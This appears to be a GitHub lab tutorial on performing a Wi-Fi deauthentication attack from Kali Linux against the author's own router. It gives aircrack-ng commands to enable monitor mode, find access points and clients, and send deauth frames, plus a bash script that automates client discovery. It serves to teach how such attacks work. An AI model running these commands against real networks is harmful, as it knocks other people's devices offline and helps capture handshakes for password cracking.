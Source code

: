 # Wi-Fi Deauthentication Attack Tutorial (Kali Linux)

> **Disclaimer:**  
> This tutorial is provided strictly for **educational purposes** and **authorized penetration testing**.  
> Do **not** use these tools on networks you do not own or have explicit permission to test.  
> Unauthorized use is **illegal** and may result in criminal prosecution.

---

## Table of Contents

- [Overview](#overview)
- [Prerequisites](#prerequisites)
- [Step 1: Enable Monitor Mode](#step-1-enable-monitor-mode)
- [Step 2: Discover the Target Access Point](#step-2-discover-the-target-access-point-ap)
- [Step 2.5: Attempting an attack](#step-2.5-attempting-an-attack)
- [Step 3: Isolate Clients Connected to the AP](#step-3-isolate-clients-connected-to-the-ap)
- [Step 4: Preforming the Deauthentication Attack](#step-4-performing-the-deauthentication-attack)
- [Step 5: Bash Script to Automate Discovery](#step-5-bash-script-to-automate-discovery)
- [Final Thoughts](#final-thoughts)

---

## Overview

In this tutorial, you’ll learn how to:
- Enable monitor mode on a wireless adapter
- Use `airodump-ng` to find nearby Access Points and connected devices
- Target a specific AP and identify connected clients (stations)
- Use `aireplay-ng` to deauthenticate a client, useful for WPA handshake capture

---

## Prerequisites

- A computer running **Kali Linux**
- A **wireless adapter that supports monitor mode and packet injection**
  - In this lab I leverage the **HAK5 MK7AC WiFi Adapter**
- An access point that can use the WPA2-Personal protocol **AND** is using the 2.4GHz transmission frequency
  - In this lab I leverage the **NETGEAR R6400-100NAS** *Circa 2017*
*Note this lab hinges on these two commponents. I would recommend using an older router*
- Tools that already should be included in Kali:
  - `airmon-ng`
  - `airodump-ng`
  - `aireplay-ng`
- Superuser (`sudo`) privileges

---

## Step 1: Enable Monitor Mode

First, identify your wireless interface. As you can see below my inteface is called wlan0. Depending on how many wireless interfaces you have the one you want to choose may vary. 
*Note: I'm using root so I don't need to add sudo to my commands*

```bash
iwconfig
```

![Image](images/1.png)

Next, using airmon-ng, part of the Aircrack-ng suite, is used for enabling and utilizing monitor mode. Essentially this mode lets the user monitor Wi-Fi traffic and capture packets. Now that it's in monitor mode the way to access this interface is via the **wlan0mon**. 

```bash
airmon-ng start wlan0
```

![Image](images/2.png)

## Step 2: Discover the Target Access Point

Now that we have a wireless adapter that is in monitor mode it's time to determint the BSSID and Channel of the access point we are going to attack. Using the **wland0mon** interface we can begin to seach for these access points. Please be aware this only works on the 2.4GHz signal

```bash
sudo airodump-ng wlan0mon
```

![Image](images/3.png)

After some time elaspse my router was able to be located aptly called **Lab_AP**. Noting the BSSID **A0:04:60:3A:1F:E5** and the channel, thrid column to the right **9** I have what I need to begin an attack.


## Step 2.5: Attempting an attack

Once you find the BSSID and Channel you can attempt a deauthentication attack against the access point's connected devices. However, it will try to spoof the MAC address of a device that's already connected. Unless you have the devices address it will be very difficult and require quite a bit of brute force to disconnect devices

First, make sure to set your wireless device in monitoring mode to the right channel otherwise it won't find the access point.

```bash
iwconfig wlan0mon channel <CH>
```

![Image](images/5.png)


Leveraging the known BSSID you can attempt an attack.

```bash
aireplay-ng -0 100 -a <BSSID> wlan0mon
```
- -0 is the deauth attack type
- -100 is the  number of packets to send
- -a is the BSSID of the AP

![Image](images/6.png)

*I tested this with an old device hooked up to the access point and attempted this blind attack twice resulted in failed dauthentcation of the device*

## Step 3: Isolate Clients Connected to the AP

Once you find the BSSID and Channel you can attempt a deauthentication attack against the access point's connected devices. However, this time we'll acquire the client's MAC address first. 

```bash
airodump-ng --bssid <BSSID> --channel <CH> --write capture wlan0mon
```

![Image](images/7.png)

*Under the STATION column resides the MAC address of a device connected to the access point*

## Step 4: Preforming the Deauthentication Attack

After acquiring the MAC address you'll be able to begin the attack on the client device.

```bash
aireplay-ng -0 100 -a <BSSID> wlan0mon -c <CLIENT> wlan0mon
```

- -0 is the deauth attack type
- -100 is the  number of packets to send
- -a is the BSSID of the AP
- -c is the Client MAC address

![Image](images/8.png)

**Before starting the attack**

![Image](images/9-e.jpg)

**After the attack**

![Image](images/10-e.jpg)

## Step 5: Bash Script to Automate Discovery

You can automate the process of discovery by using a shell script like this. It simply takes two parameters at runtime the BSSID and the Channel. 
- There's a 10 second time limit for a time out.
- We make the call to airodump-ng to start the process of finding the clients on the device and writing it to an output.
- Then we grep out what we want from the csv file from the first column and then using regex to match a MAC address from the csv file.
- The sort just removes duplicates.


```bash
#!/bin/bash

# Simple Client MAC Discovery Tool

MON=wlan0mon
BSSID=$1
CHANNEL=$2
DURATION=10

if [[ -z "$BSSID" || -z "$CHANNEL" ]]; then
    echo "Usage: $0 <BSSID> <Channel>"
    exit 1
fi

echo "[****] Scanning for clients connected to BSSID: $BSSID on channel $CHANNEL"
timeout $DURATION airodump-ng --bssid $BSSID --channel $CHANNEL --write scan_output --output-format csv $MON > /dev/null 2>&1

echo "[****] Extracting connected clients"
grep "$BSSID" scan_output-01.csv | awk -F ',' '{print $1}' | grep -E "([0-9A-Fa-f]{2}:){5}[0-9A-Fa-f]{2}" | sort -u

echo "[****] Done."

```


## Final Thoughts
This lab is a good way to get started in understanding how Deauthentication attacks work, why they are powerful, and the tools required. 